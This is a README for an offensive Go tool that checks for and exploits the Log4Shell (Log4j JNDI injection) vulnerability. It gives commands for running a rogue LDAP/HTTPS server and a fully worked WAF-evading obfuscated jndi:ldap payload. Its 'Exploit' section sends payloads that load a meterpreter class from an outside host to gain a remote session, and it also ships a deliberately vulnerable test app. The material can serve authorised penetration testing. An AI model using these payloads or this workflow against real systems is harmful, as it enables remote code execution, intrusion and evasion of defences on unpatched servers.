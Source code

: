 # Log4Shell
 * Check, exploit, obfuscate, TLS, ACME in one Go program. 
 * You don't need to install anything except develop it.

## Usage
 ### Common
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### LDAPS and HTTPS server
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)
   
 ### LDAPS and HTTPS server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)
   
 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/calc.class}"
   
   raw: ${jndi:ldap://1.1.1.1:3890/calc.class}
   ${${lhnK:JFL3Nl:-j}n${Yx6-A3NuXSY1nI-g38C4MN-WAFx:-d}i:${2O:bO2I5l:-l}${yeZ6-mnrv6pb:gB49n:XrYMP:-d}
   ${jVBMSs-iOFWslRG-XuNO:dsCO:-a}${jYYNn:Twh80-IYXK:-p:/}${eOFbh:DW35u2:-/1.}${EkFw3Z-YsM9CIMV8:g2DHZ:
   -1}${Vez8Sb:Mwn:-}${yWH0V-FY9jJQZ2:TOSkrotU:oq1i:-}${kZ:BoJpOxRH-yFI2POt-88w2:-.1}${xbswX-VstKzXnyNz
   i8:jeEQKB5WRH-Ob:-}${Uyhe0-aYuAh-MdR63to:GONgfM:-.}${eA:eCPgpV-NWF7s:-}${mrLla-owJSvkD:n0cmdQ-V2cLx:
   -1:3}${CwG9:Hc:-}${xT:aiD7ho:xz:-8}90${NTSL-dSfw9NC:7OiGEp:gMQwko:-}/${TCpW:UhZI0IO8:9Jz5MH:WyM:-c}$
   {Mlv:AS8TOFMM-b9I2:FqvBY:-al}${mfGW:EY1Yd48:E0KhRGfp:5CBsuC:-c}${xDw1-ZyHav9K:jPHo18i:zibmI:-.}c${ye
   -kZjRa5g61cm-Hn2yR7:-la}${Htg:cySA:-s}s}
   ```
   
## Check
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/nop.class}```
 * send ```${jndi:ldaps://example.com:3890/nop.class}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/meterpreter.class}```
 * send ```${jndi:ldaps://example.com:3890/meterpreter.class}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/calc.class}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -auto-cert
        use ACME client to sign certificate
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -obf string
        obfuscate malicious(payload) string
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)
